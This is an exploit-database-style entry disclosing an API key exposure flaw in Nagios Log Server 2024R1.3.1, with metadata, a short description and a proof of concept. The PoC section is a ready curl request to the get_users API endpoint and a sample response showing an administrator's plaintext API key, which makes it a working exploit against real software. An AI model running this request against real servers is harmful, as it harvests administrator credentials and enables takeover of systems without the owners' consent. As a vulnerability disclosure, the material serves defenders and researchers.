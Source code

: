 # Exploit Title: Nagios Log Server 2024R1.3.1 - API Key Exposure
# Date: 2025-04-08
# Exploit Author: Seth Kraft, Alex Tisdale
# Vendor Homepage: https://www.nagios.com/
# Vendor Changelog: https://www.nagios.com/changelog/#log-server
# Software Link: https://www.nagios.com/products/log-server/download/
# Version: Nagios Log Server 2024R1.3.1 and below
# Tested On: Nagios Log Server 2024R1.3.1 (default configuration, Ubuntu 20.04)
# CWE: CWE-200, CWE-284, CWE-522
# CVSS: 9.8 (CVSS:4.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H)
# Type: Information Disclosure, Improper Access Control
# Exploit Risk: Critical

## Disclosure
For ethical research purposes only. Do not target systems without proper authorization.

## Description
An API-level vulnerability in Nagios Log Server 2024R1.3.1 allows any user with a valid API token to retrieve a full list of user accounts along with their plaintext API keys, including administrator credentials. This flaw enables user enumeration, privilege escalation, and full system compromise via unauthorized use of exposed tokens.

## PoC

### Step 1: Access the vulnerable endpoint

```
curl -X GET "http://<target-ip>/nagioslogserver/index.php/api/system/get_users?token=<valid_token>"
```

## Sample Response

```json
[
  {
    "name": "devadmin",
    "username": "devadmin",
    "email": "test@example.com",
    "apikey": "dcaa1693a79d651ebc29d45c879b3fbbc730d2de",
    "auth_type": "admin",
    ...
  }
]
```